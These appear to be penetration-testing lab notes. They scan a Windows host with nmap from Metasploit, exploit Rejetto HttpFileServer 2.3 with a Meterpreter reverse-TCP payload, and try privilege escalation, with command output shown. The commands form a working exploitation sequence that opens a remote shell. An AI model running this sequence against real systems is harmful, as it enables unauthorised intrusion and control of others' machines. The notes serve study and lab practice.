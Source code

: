 - Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV 10.2.18.116
```

```bash
80/tcp    open  http 		 HttpFileServer httpd 2.3
135/tcp   open  msrpc		 Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc 		 Microsoft Windows RPC
49153/tcp open  msrpc 		 Microsoft Windows RPC
49154/tcp open  msrpc 		 Microsoft Windows RPC
49155/tcp open  msrpc 		 Microsoft Windows RPC
49163/tcp open  msrpc 		 Microsoft Windows RPC
49175/tcp open  msrpc 		 Microsoft Windows RPC
```

### Exploitation / Meterpreter x64

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set payload windows/x64/meterpreter/reverse_tcp
run
```

```bash
sysinfo
    Computer        : VICTIM
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x64/windows
```

### Privilege Escalation

```bash
getuid
	Server username: VICTIM\admin
	
getsystem
# gesystem fails

getprivs
    Enabled Process Privileges
    ==========================
    Name
    ----
    SeChangeNotifyPrivilege
    SeIncreaseWorkingSetPrivilege
    SeShutdownPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege
# "admin" user my be part of the Administrators group
```
